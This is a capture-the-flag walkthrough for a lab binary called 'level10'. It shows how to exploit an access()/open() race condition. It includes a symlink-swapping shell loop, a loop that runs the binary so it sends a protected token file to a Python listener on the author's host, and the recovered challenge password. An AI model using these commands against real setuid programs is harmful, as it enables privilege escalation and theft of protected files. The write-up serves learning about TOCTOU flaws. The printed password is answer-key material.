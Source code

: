 <h2>Level 10</h2>

![alt text](./screenshot/image1.png)

In this level we have `level10` executable and a `token` file

We do not have any permission on the `token` file so lets try to run `level10` to see what this program does

![alt text](./screenshot/image2.png)

It seems that `level10` is sending the file in the 1st argv to the host in the 2nd argv if we have the permission of that file

Lets use `ltrace` to check analyze further

![alt text](./screenshot/image3.png)

When we analyze with the token file, we can see that it is calling `access()` to check something and it return -1 and printf `You dont't have access`

While in the other test, it return 0 and continue to connect to the host

Lets make a simple python server in our local machine to capture the file.

This is a good example on how to create a simple python server
```console
https://realpython.com/python-sockets/#echo-client-and-server
```

```console
#!/usr/bin/env python3

import socket

HOST = '192.168.1.16'
PORT = 6969

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((HOST, PORT))
    s.listen()
    conn, addr = s.accept()
    with conn:
        print('Connected by', addr)
        while True:
            data = conn.recv(1024)
            if not data:
                break
            print('Data received: {}'.format(data))
            conn.sendall(data)
```

Now lets run our python server in local machine, and back to the VM to run `level10` to see what happen if the host is connected.

![alt text](./screenshot/image4.png)

![alt text](./screenshot/image5.png)

We can see that if we succesfully connect to the host and we have the right permissions on the file, it will write the file content to our local machine server

If we are able to hack the `level10`, we can potentially let it write the content of `token` file for us.

When we analyze `level10` with ltrace, we can see that it is using `access()` to check for the permission, lets check what this is with `man access`

![alt text](./screenshot/image6.png)

In the `man` it said that `access()` have a security hole and is not safe to use

And in the following link
```console
https://security.stackexchange.com/questions/42659/how-is-using-acces-opening-a-security-hole
```

![alt text](./screenshot/image7.png)

Someone explain that we can exploit the small time between the checking of the permission and the reading of the file

First we will let the program do `access` on the file that we have the permission on, once it checked that the file is okay, we will quickly do a `symlink` to `token` file

Since a program execution is very fast, human speed could never exploit that small little time frame, so we should use machine to fight with machine
```console
while true; do ln -fs ~/.profile /tmp/exploit; ln -fs ~/token /tmp/exploit; done
```

In the current folder, if we do `ls -la` we could actually see some hidden file like `.profile` which we have the permission on.

So we can do a while loop which will keep linking `/tmp/exploit` between `.profile` and `token`, and trick the `level10` using another while loop
```console
while true; do ./level10 /tmp/exploit 192.168.1.16; done
```

Now this will keep execute the `level10` with the `/tmp/exploit` file, meanwhile the 1st while loop is alternatively linking it back and forth between `.profile` and `token`

![alt text](./screenshot/image8.png)

It may not success at the first time, but we can keep to rerun the server again 

Eventually we will get the password from the token `woupa2yuojeeaaed06riuj63c`

![alt text](./screenshot/image9.png)

Using this password, we finally get our flag for the next level~  :partying_face: :tada: :tada: :tada: